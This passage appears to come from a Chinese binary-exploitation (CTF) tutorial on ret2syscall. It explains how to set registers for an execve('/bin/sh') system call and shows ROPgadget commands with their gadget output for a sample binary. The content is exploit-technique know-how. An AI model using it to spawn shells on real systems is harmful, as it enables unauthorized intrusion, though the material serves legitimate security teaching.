 ### 3.4. 控制程序执行系统调用（ret2syscall）

关于系统调用的知识，请参考

- [https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8](https://zh.wikipedia.org/wiki/系统调用)  
  简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用（0x80 是系统中断的指令）。比如说这里我们利用如下系统调用来获取 shell

```c
execve("/bin/sh",NULL,NULL)
```

其中，如果程序是 32 位，所以我们需要使得

    系统调用号，即 eax 应该为 0xb，因为execve的系统调用号为0xb
    第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
    第二个参数，即 ecx 应该为 0
    第三个参数，即 edx 应该为 0

如果是 64 位程序，设法将`0x3b`传入`rax`。其余参数传递看`1.小知识`获取 64 位程序的参数传递。x64 与 x86 的不同点如下

（1）系统调用号不同.比如 x86 中 sys_write 是 4，sys_exit 是 1；而 x86_64 中 sys_write 是 1, sys_exit 是 60。linux 系统调用号实际上定义在/usr/include/asm/unistd_32.h 和/usr/include/asm/unistd_64.h 中。  
（2）系统调用所使用的寄存器不同，x86_64 中使用与 eax 对应的 rax 传递系统调用号，但是 x86_64 中分别使用 rdi/rsi/rdx 传递前三个参数，而不是 x86 中的 ebx/ecx/edx。  
（3）系统调用使用`syscall`而不是`int 80`。

比如说，现在栈顶是 10，那么如果此时执行了 pop eax，那么现在 eax 的值就为 10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因。  
首先寻找 eax 的 gadget：

```
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

不妨选取第二个。
类似的得到控制其他寄存器的 gadgets

```
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```